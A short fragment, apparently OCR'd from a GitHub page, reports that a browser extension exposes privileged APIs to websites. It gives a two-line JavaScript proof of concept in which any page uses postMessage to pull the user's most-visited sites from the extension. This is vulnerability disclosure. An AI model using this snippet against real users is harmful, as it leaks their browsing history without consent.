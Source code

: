 This extension gives web applications access to privileged APIs: storage, cookies

a website can do this to expose browsing history:

> window.addEventListener("message", function(msg) { JSON.parse(msg.data).data.forEach(function(a) { console.log(a.title, a.url);}) })
> window.postMessage(JSON.stringify({destination: "mallpejgeafdahhflmliiahjdpgbegpk", cmd: "mostVisitedSites"}), "*")
